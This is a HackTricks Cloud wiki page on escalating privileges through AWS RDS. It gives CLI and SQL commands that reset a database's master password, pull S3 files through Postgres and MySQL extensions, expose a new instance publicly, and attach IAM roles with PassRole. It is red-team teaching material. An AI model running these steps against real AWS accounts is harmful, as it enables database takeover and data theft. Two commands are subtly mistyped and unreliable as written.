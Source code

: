 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Relational Database Service

For more information about RDS check:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

With that permission an attacker can **modify the password of the master user**, and the login inside the database:

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
    --db-instance-identifier <db-id> \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
You will need to be able to **contact to the database** (they are usually only accessible from inside networks).
{% endhint %}

**Potential Impact:** Find sensitive info inside the databases.

### rds-db:connect

According to the [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) a user with this permission could connect to the DB instance.

### Abuse RDS Role IAM permissions

#### Postgresql (Aurora)

{% hint style="success" %}
If running **`SELECT datname FROM pg_database;`** you find a database called **`rdsadmin`** you know you are inside an **AWS postgresql database**.
{% endhint %}

First you can check if this database has been used to access any other AWS service. You could check this looking at the installed extensions:

```sql
SELECT * FROM pg_extension;
```

If you find something like **`aws_s3`** you can assume this database has **some kind of access over S3** (there are other extensions such as **`aws_ml`** and **`aws_lambda`**).

Also, if you have permissions to run **`aws rds describe-db-clusters`** you can see there if the **cluster has any IAM Role attached** in the field **`AssociatedRoles`**. If any, you can assume that the database was **prepared to access other AWS services**. Based on the **name of the role** (or if you can get the **permissions** of the role) you could **guess** what extra access the database has.

Now, to **read a file inside a bucket** you need to know the full path. You can read it with:

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
   'test1234567890678', // Name of the bucket
   'data.csv',          // Name of the file
   'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

If you had **raw AWS credentials** you could also use them to access S3 data with:

```sql
SELECT aws_s3.table_import_from_s3(
   't', '', '(format csv)',
   :'s3_uri', 
   aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

{% hint style="info" %}
Postgresql **doesn't need to change any parameter group variable** to be able to access S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Inside a mysql, if you run the query **`SELECT User, Host FROM mysql.user;`** and there is a user called **`rdsadmin`**, you can assume you are inside an **AWS RDS mysql db**.
{% endhint %}

Inside the mysql run **`show variables;`** and if the variables such as **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, have values, you can assume the database is prepared to access S3 data.

Also, if you have permissions to run **`aws rds describe-db-clusters`** you can check if the cluster has any **associated role**, which usually means access to AWS services).

Now, to **read a file inside a bucket** you need to know the full path. You can read it with:

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

An attacker with the permissions `rds:AddRoleToDBCluster` and `iam:PassRole` can **add a specified role to an existing RDS instance**. This could allow the attacker to **access sensitive data** or modify the data within the instance.

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.\
Note that some DBs require additional configs such as Mysql, which needs to specify the role ARN in the aprameter groups also.

### `rds:CreateDBInstance`

Just with this permission an attacker could create a **new instance inside a cluster** that already exists and has an **IAM role** attached. He won't be able to change the master user password, but he might be able to expose the new database instance to the internet:

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
    --db-instance-identifier mydbinstance2 \
    --db-instance-class db.t3.medium \
    --engine aurora-postgresql \
    --db-cluster-identifier database-1 \
    --db-security-groups "string" \
    --publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker with the permissions `rds:CreateDBInstance` and `iam:PassRole` can **create a new RDS instance with a specified role attached**. The attacker can then potentially **access sensitive data** or modify the data within the instance.

{% hint style="warning" %}
Some requirements of the role/instance-profile to attach (from [**here**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* The profile must exist in your account.
* The profile must have an IAM role that Amazon EC2 has permissions to assume.
* The instance profile name and the associated IAM role name must start with the prefix `AWSRDSCustom` .
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

An attacker with the permissions `rds:AddRoleToDBInstance` and `iam:PassRole` can **add a specified role to an existing RDS instance**. This could allow the attacker to **access sensitive data** or modify the data within the instance.

{% hint style="warning" %}
The DB instance must be outside of a cluster for this
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

